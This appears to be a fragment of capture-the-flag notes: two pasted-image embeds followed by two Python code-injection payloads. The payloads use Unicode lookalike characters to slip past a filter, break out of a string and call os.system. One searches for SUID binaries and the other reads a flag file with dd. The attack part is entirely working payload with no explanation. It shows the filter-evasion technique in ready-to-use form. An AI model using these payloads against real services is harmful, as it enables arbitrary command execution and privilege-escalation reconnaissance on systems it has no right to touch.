 ![[Pasted image 20241102131525.png]]

![[Pasted image 20241102132027.png]]

```
‘₎﹔len ⁼ lambda x： 0﹔print₍str₍＿＿import＿＿₍‘os‘₎․system₍‘find ⁄ －perm －u⁼s‘₎₎⁺‘
‘₎﹔len ⁼ lambda x： 0﹔print₍str₍＿＿import＿＿₍‘os‘₎․system₍‘dd if⁼⁄flag‘₎₎⁺‘
```